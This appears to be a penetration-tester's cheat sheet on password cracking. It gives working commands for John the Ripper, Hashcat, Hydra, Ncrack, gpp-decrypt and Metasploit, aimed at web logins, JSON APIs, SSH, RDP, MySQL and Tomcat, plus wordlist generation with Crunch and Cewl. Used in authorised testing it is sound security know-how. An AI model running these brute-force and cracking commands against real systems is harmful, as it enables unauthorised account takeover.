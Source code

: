 # Password cracking

Passwords can be brute-forced \(e.g. just iterating through different letter/number combinations\) but it is probably more efficient to use a dictionary. In Kali, wordlists can be found in `/usr/share/wordlists`. Both `fasttrack` and `rockyou` are good for testing weak passwords. Many applications and services are installed with [default passwords](http://www.defaultpassword.com/), so always check for those before attempting to crack them.

## Identifying hashes

Passwords will often be hashed in databases, sometimes with a salt. If the database/application includes a salt with the password, you'll need to some research to figure out how it is used in the hashed password. For example, it might be concatenated with the password \(salt + password, password + salt\) before hashing, or it may be hashed multiple times.

Identifying hashes using hash-identifer:

```text
hash-identifier
```

## John the Ripper

John is useful for offline password cracking, with a hash stored in a text file.

Usage:

```text
john --wordlist=/usr/share/wordlists/rockyou.txt -format=Raw-MD5 /root/Desktop/john.txt
```

The `format` option is not always necessary as john does a decent job of guessing. Here's a [list of supported formats](http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats).

## Hydra

Hydra is a command-line tool for online password attacks, such as website login pages and ssh. The options can be tricky, so you can use [Burp Intruder](https://support.portswigger.net/customer/portal/articles/1964020-using-burp-to-brute-force-a-login-page) as an alternative for websites. However, it seems to have trouble loading large wordlists such as rockyou.

### Websites

Hydra is useful for brute-forcing website login pages, but you'll need to [pass it the HTTP request string using Burp's proxy](https://www.hackers-arise.com/single-post/2018/02/26/Online-Password-Cracking-with-THC-Hydra-and-Burp-Suite) and parameters for success or failure.

General format for website attacks:

```text
hydra -L <username list> -p <password list> [host] http-post-form "<path>:<form parameters>:<failed login message>"
```

Attack [DVWA](http://www.dvwa.co.uk/) login page:

```text
hydra -L <wordlist> -P <password list> [host] http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

Attack WordPress login page with a known username, success parameter `S=` instead of failure parameter, verbose output:

```text
hydra -l [username] -P /usr/share/wordlists/rockyou.txt [host] http-post-form "/wp-admin/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=http%3A%2F%2F[host]%2Fwp-admin%2F" -V
```

#### JSON and APIs

It's a pain in the ass, but you can submit API responses and read them using Hydra. You just have to escape every `"` and `:` in the JSON messages:

```text
hydra -l [username] -P /usr/share/wordlists/fasttrack.txt [host] https-form-post "/api/account/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=userInfo" -V
```

Because of issues like throttling and API lockouts, you may want to use Burp Intruder instead, because it lets you read different server responses.

### SSH

General usage:

```text
hydra -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh
```

SSH with a non-standard port \(22022\):

```text
hydra -s 22022 -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh
```

SSH with a username wordlist, non-standard port, limited threads and verbose output:

```text
hydra -s 22022 -L userlist.txt -P /usr/share/wordlists/fasttrack.txt [host] ssh -t 4  -v
```

## Hashcat

Hashcat is a very fast password-cracking tool, with [many supported formats](https://hashcat.net/wiki/doku.php?id=example_hashes).

General usage:

```text
hashcat -m 0 -a 0 -o cracked.txt target_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

* `m` is the hash format \(e.g. m 13100 is Kerberos 5\)
* `a 0` is a dictionary attack
* `o cracked.txt` is the output file for the cracked password
* `target_hashes.txt` is the hash to be cracked
* `/usr/share/wordlists/rockyou.txt` is the absolute path to the wordlist
* `--force` is something I always have to add \(think it's GPU-related\)

## Ncrack

Ncrack can be used to crack RDP passwords:

```text
ncrack -vv --user username -P password-file.txt rdp://[host]
```

## GPP-decrypt

Group Policy Preferences \(GPP\) has been used in the past to allow Windows administrators to create domain policies with embedded credentials. These policies allowed administrators to set local accounts, embed credentials for the purposes of mapping drives, or perform other tasks that may otherwise require an embedded password in a script.

Unfortunately, the password that is stored in the policy is [encrypted with a known key](https://msdn.microsoft.com/en-us/library/cc422924.aspx), meaning anyone who can access the GPP [can obtain the plain text password](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/). Since GPPs are stored on the domain controller in the SYSVOL share, this means that at a minimum all domain users can access the encrypted credentials.

Once you find and download the groups.xml file, extract the contents of `cpassword` and use gpp-decrypt:

```text
gpp-decrypt [hash]
```

## MySQL brute force

With Metasploit:

```text
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > set rhosts [target]
msf auxiliary(mysql_login) > set rport [port]
msf auxiliary(mysql_login) > set user_file /root/Desktop/users.txt
msf auxiliary(mysql_login) > set pass_file /root/Desktop/password.txt
msf auxiliary(mysql_login) > run
```

## Apache Tomcat brute force

With Metasploit:

```text
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set rhosts [target]
msf auxiliary(tomcat_mgr_login) > set rport [port, usually 8080]
msf auxiliary(tomcat_mgr_login) > set ssl true
msf auxiliary(tomcat_mgr_login) > set stop_on_success true
msf auxiliary(tomcat_mgr_login) > run
```

By default, Metasploit will use its list of default Tomcat usernames and passwords, but you could set a single username with `set username` or run a custom list with `set user_file`. You can also run a longer password list with `set pass_file`. Depending on how fast the server responds, you could use a big wordlist but otherwise stick to `fasttrack.txt`. 

## Custom wordlists

Custom wordlists are useful when targeting a specific organization or individual, to generate more relevant password lists.

### Crunch

Crunch generates a custom password lists that can be used to guess passwords. These include:

* All combinations for a number of letters.
* All combinations for a range of characters followed by static text.
* Password lists based on default password ranges \(default router passwords for example\).

General usage:

```text
crunch [min length] [max length] [charset] [options]
```

Generates a password list with all possible combinations of 4 capital letters:

```text
crunch 4 4 ABCDEFGHIJKLMNOPQRSTUVWXYZ -o /root/Desktop/wordlist.txt
```

Generate a list with all combinations for 5 digits:

```text
crunch 5 5 0123456789 -o /root/Desktop/wordlist.txt
```

Generate a wordlist that contains all possible combinations with four letters followed by 1980:

```text
crunch 8 8 ABCDEFGHIJKLMNOPQRSTUVWXYZ -t @@@@1980 -o /root/Desktop/wordlist.txt
```

Use the -p option defining the charset which eliminates repeating characters or words. This is creates a wordlist using different combinations of specific words.

Generate all combinations of the words ‘Dog Cat Mouse’:

```text
crunch 1 2 -p Dog Cat Mouse -o /root/Desktop/wordlist.txt
```

### Cewl

Cewl scrapes websites for text to generate a custom password list.

Options:

* `-m` is the minimum word length for words to save to the wordlist.
* `-d` is the maximum depth the spider is allowed to scrape.
* `-o` is offsite, used to allow the spider to leave the current website to another website.
* `-w` is write to output file, specify the output file here.

Example: use Cewl on the Kali Linux website to find words with 8 letters or greater and go 1 level deep:

```text
cewl -d 1 -m 8 -w /root/Desktop/cewl.txt https://www.kali.org
```

